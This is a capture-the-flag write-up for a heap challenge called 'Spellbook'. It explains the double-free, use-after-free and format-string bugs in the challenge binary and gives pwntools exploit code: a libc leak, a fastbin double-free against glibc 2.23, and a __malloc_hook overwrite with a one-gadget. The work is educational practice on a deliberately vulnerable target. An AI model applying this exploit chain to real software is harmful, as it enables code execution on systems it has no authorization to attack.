# Spellbook

## tl;dr 

A heap challenge with every bug in the world (?)

## Vulnerabilities

We get a binary that when run shows a prompt with a standard ctf diary behavior. We can add, show, edit and delete entries (spells ?) so this is most likely a heap challenge.



By taking a quick look into the decompilation in IDA, we can see that a couple of vulnerabilities are created by the ```delete``` functionality:



We can see that when deleting, the program frees the ```ptr->sp``` and ```ptr``` itself, but it never sets ```ptr = 0``` or ```ptr->sp = 0```, creating two dangling pointers that point to freed chunks. Since the check only checks ```if (idx <= 9 && table[idx])```, even if we free an entry, the check will still succeed since ```table[idx]``` is never set to 0 after freeing. Therefore, this creates a ```double-free``` bug.

Moreover, when looking at the ```edit``` functionality, we can see the exact same check:



Which means that we can also edit a chunk after deleting it. Therefore, we also have a ```use-after-free``` bug.

One of these bugs is already enough to get code execution, but we would also need a address leak (libc or PIE) to make our life easier. Thankfully, by checking the ```show``` functionality, we can see that the program also has a ```format-sting``` vulnerability as it passes ```table[idx]->type``` and ```table[idx]->sp``` as the format parameter to printf:



Therefore, we can also hopefully get a libc leak from some stack addresses.

The program also has a heap overflow in the ```edit``` functionality as it reads 0x1f into ```spell->fp``` regardless of its actual malloc'd size. However, this only allows us to edit the size of the next chunk and would be annoying to exploit.

## Leaking libc

It is pretty easy to trigger the fmt, we just pass our format string as either the spell's type or spell, and then show the spell:



So, we break at the printf call that causes the fmt at show+170, and check the stack to see if we can leak something:




We see a very nice ```__libc_start_main+240``` address in the stack, therefore we choose to leak that. Finally, the full script to get the libc base would be:
```py
# add fmt spell
add(1, b'%13$p', 0x60, b'aaa')

# get leak
show(1)
io.recvuntil(b': 0x')
leak = io.recvuntil(b'\n')

# get libc base
libc.address = int(leak, 16) - libc.symbols['__libc_start_main'] - 240
log.info(f'libc @ {hex(libc.address)}')
```

## Double-Free to Code Execution

Since we now have libc, we only have to exploit one of the bugs to get code execution. While use-after-free is the easiest, I chose double-free because I didn't notice the uaf...

With ```double-free```, and since we are on glibc 2.23, our goal is to get a fastbin corruption by crafting a duplicated fastbin. To begin with, we can trigger the double free by simply doing the following:

```py
# add fmt spell
add(1, b'%13$p', 0x60, b'aaa')

# get leak
show(1)
io.recvuntil(b': 0x')
leak = io.recvuntil(b'\n')

# get libc base
libc.address = int(leak, 16) - libc.symbols['__libc_start_main'] - 240
log.info(f'libc @ {hex(libc.address)}')

# second chunk
add(2, b'yes', 0x60, b'aaa')

# free first chunk
delete(1)

# free second chunk
delete(2)

# double free, we now have a duplicated fastbin
delete(1)
```

After the first and second free, out bins look normal, containining 2 free chunks in the 0x70 bin corresponding for the first and second allocation:



However, after freeing the first again, by double freeing the chunk, we manage to corrupt the fastbin:



Therefore, we now have the first chunk twice in the fastbin! Now, we have to allocate one of the duplicate chunks and edit it. When we edit it, the second duplicate chunk will still exist in the fastbin, so our edited contents will exist in a free chunk in the fastbin.

If we edit the next pointer of the first duplicate chunk, we can basically change the next pointer of the free chunk, so we can add any arbitrary address into the fastbin. This means, that if we keep allocating, malloc at some point will return a pointer to that arbitrary address if no other free chunk of the same size exists.

Therefore, our goal here will be to get malloc to return a pointer to ```__malloc_hook``` so we can overwrite it and get code execution. However, the free chunk has to have a valid size. Thankfully, the is a 0x7f byte some bytes above ```__malloc_hook```, so we can use that as a fake size.

Initially, we allocate the first duplicate chunk and set its contents as ```__malloc_hook - 0x23```. This will edit the next pointer of the second free chunk to be at the 0x7f byte above malloc hook. We can do this with the following:
```py
add(1, 'wee', 0x60, p64(libc.sym['__malloc_hook'] - 0x23))
```

Right after this allocation, if we check our bins, we see that we have a free chunk at 0x7f756af92afd, which looks like it is malloc hook =)



Now, we just have to keep allocating until malloc returns a pointer to that chunk:

```py
add(2, b'yes', 0x60, b'aaa')
add(3, b'yes', 0x60, b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa')
```

After these two allocs, we check our bins:



Woo, our next one will be the malloc hook chunk! Eh, not yet. Unfortunately the 0x30 bin is ruined, and we need it for our struct allocations. However, we can fix that by doing another allocation and freeing it after everything else so we have another free 0x30 chunk:

```py
add(8, 'aaa', 0x20, b'aaa')
delete(8)
```

After this, our bins look like this:



Now, the next allocation will return a pointer close to malloc hook! With some offset bruteforcing, we allocate it and overwrite it to some random one-gadget:

```py
add(4, b'yes', 0x60, b'1111111111111111111' + p64(libc.address + one) + b'45678901234567890')
```

And voila:


